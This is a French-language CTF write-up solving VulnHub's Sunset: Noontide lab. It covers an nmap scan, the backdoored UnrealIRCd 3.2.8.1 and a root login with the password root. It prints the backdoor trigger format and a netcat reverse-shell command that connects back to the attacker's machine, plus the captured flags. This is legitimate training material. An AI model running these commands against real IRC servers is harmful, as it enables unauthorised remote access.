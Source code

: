 ```yaml
---
title: "Solution du CTF Sunset: Noontide de VulnHub"
tags: [CTF, VulnHub]
---
```



[Sunset: Noontide](https://vulnhub.com/entry/sunset-noontide,531/) est à l'heure de ces lignes le dernier CTF de la série créé par [whitecr0wz](https://vulnhub.com/author/whitecr0wz,630/).

Il est assez surprenant, déjà sur la liste des ports en écoute. Pour le reste, je dirais juste qu'il faut tester, même les idées qui paraissent stupides.

```console
$ sudo nmap -p- -T5 -sCV --script vuln 192.168.56.168
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-10 10:43 CEST
Nmap scan report for 192.168.56.168
Host is up (0.0010s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
| irc-botnet-channels: 
|_  ERROR: Closing Link: [192.168.56.1] (Too many unknown connections from your IP)
6697/tcp open  irc     UnrealIRCd
| irc-botnet-channels: 
|_  ERROR: Closing Link: [192.168.56.1] (Too many unknown connections from your IP)
|_ssl-ccs-injection: No reply from server (TIMEOUT)
8067/tcp open  irc     UnrealIRCd
| irc-botnet-channels: 
|_  ERROR: Closing Link: [192.168.56.1] (Too many unknown connections from your IP)
MAC Address: 08:00:27:2A:0B:87 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.49 seconds
```

On a donc un serveur IRC qui écoute sur 3 ports.

Je me connecte avec `HexChat` de cette manière je vois la version du serveur dans les messages :

```
* *** Couldn't resolve your hostname; using your IP address instead
* You have not registered
* Welcome to the ROXnet IRC Network sirius!sirius@192.168.56.1
* Your host is irc.foonet.com, running version Unreal3.2.8.1
* This server was created Sat 08 Aug EDT at 2020 07:03:52 PM
* irc.foonet.com Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj
* UHNAMES NAMESX SAFELIST HCN MAXCHANNELS=10 CHANLIMIT=#:10 MAXLIST=b:60,e:60,I:60 NICKLEN=30 CHANNELLEN=32 TOPICLEN=307 KICKLEN=307 AWAYLEN=307 MAXTARGETS=20 :are supported by this server
* WALLCHOPS WATCH=128 WATCHOPTS=A SILENCE=15 MODES=12 CHANTYPES=# PREFIX=(qaohv)~&@%+ CHANMODES=beI,kfL,lj,psmntirRcOAQKVCuzNSMTG NETWORK=ROXnet CASEMAPPING=ascii EXTBAN=~,cqnr ELIST=MNUCT STATUSMSG=~&@%+ :are supported by this server
* EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP :are supported by this server
* There are 1 users and 0 invisible on 1 servers
* I have 1 clients and 0 servers
* Current Local Users: 1  Max: 1
* Current Global Users: 1  Max: 1
* MOTD File is missing
```

Cette version a été backdoorée. On trouve sur *exploit-db* un module Metasploit ainsi qu'un exploit en Perl :

[UnrealIRCd 3.2.8.1 - Remote Downloader/Execute - Linux remote Exploit](https://www.exploit-db.com/exploits/13853)

Dans tous les cas il convient de simplement envoyer une commande système de cette façon au serveur : `AB;commande;`

J'ai modifié l'exploit Perl pour qu'il utilise des commandes de mon choix, mais ni `cURL` ni `Wget` ne semblaient se connecter à ma machine.

Je peux aussi utiliser la commande `/raw` du client IRC pour passer des commandes directement. J'ai finalement obtenu un reverse-shell avec la commande suivante :

```
/raw AB;nc -e /bin/bash 192.168.56.1 9999
```

On obtient un shell pour l'utilisateur `server` :

```console
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.168.
Ncat: Connection from 192.168.56.168:46428.
id
uid=1000(server) gid=1000(server) groups=1000(server),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```

Et notre premier flag :

```console
server@noontide:/home/server$ cat local.txt 
c53c08b5bf2b0801c5d0c24149826a6e
```

Après avoir énuméré pendant un moment sans résultats j'ai juste tenté de me connecter avec `root` / `root` et c'est passé :

```console
server@noontide:/home/server$ su
Password: 
root@noontide:/home/server# cd
root@noontide:~# ls
proof.txt
root@noontide:~# cat proof.txt 
ab28c8ca8da1b9ffc2d702ac54221105

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
```


